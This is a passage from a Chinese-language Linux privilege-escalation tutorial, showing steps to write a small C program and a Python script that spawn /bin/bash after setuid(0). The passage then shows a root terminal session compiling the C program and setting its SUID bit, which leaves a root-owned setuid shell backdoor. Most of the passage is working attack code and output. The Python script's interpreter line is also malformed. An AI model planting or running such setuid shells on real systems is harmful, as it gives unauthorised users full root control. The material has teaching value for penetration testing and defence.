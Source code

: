 4. 编写脚本，写入想执行的命令。可以是`/bin/bash`或C语言等脚本

   例子：

   - C语言脚本

     ```c
     #include<unistd.h>
     void main()
     {
             setuid(0);
             setgid(0);
             system("/bin/bash");
     }
     ```

   - python脚本

     ```python
     /usr/bin/python3
     
     import os
     import sys
     
     try: 
             os.system("/bin/bash")
     except:
             sys.exit()
     ```

5. chmod +s 文件添加suid权限

   具体的例子

   ```bash
   root@ubuntu:/tmp/joyce# chmod -s pwn.c
   root@ubuntu:/tmp/joyce# gcc pwn.c -o pwn
   pwn.c: In function ‘main’:
   pwn.c:3:9: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
       3 |         setuid(0);
         |         ^~~~~~
   pwn.c:4:9: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
       4 |         setgid(0);
         |         ^~~~~~
   pwn.c:5:9: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
       5 |         system("/bin/bash");
         |         ^~~~~~
   root@ubuntu:/tmp/joyce# ls
   pwn  pwn.c
   root@ubuntu:/tmp/joyce# chmod +s pwn
   root@ubuntu:/tmp/joyce# ls -al
   total 52
   drwx------  3  996  994  4096 Aug 16 16:36 .
   drwxrwxrwt 13 root root  4096 Aug 16 16:36 ..
   -rw-------  1  996  994   755 Aug 16 16:35 .bash_history
   -rw-r--r--  1  996  994    18 Nov 25  2021 .bash_logout
   -rw-r--r--  1  996  994   193 Nov 25  2021 .bash_profile
   -rw-r--r--  1  996  994   231 Nov 25  2021 .bashrc
   -rwsr-sr-x  1 root root 16784 Aug 16 16:36 pwn
   -rw-r--r--  1 root root    83 Aug 16 16:35 pwn.c
   drwxr-xr-x  2 root root  4096 Aug 16 16:23 .ssh
   ```
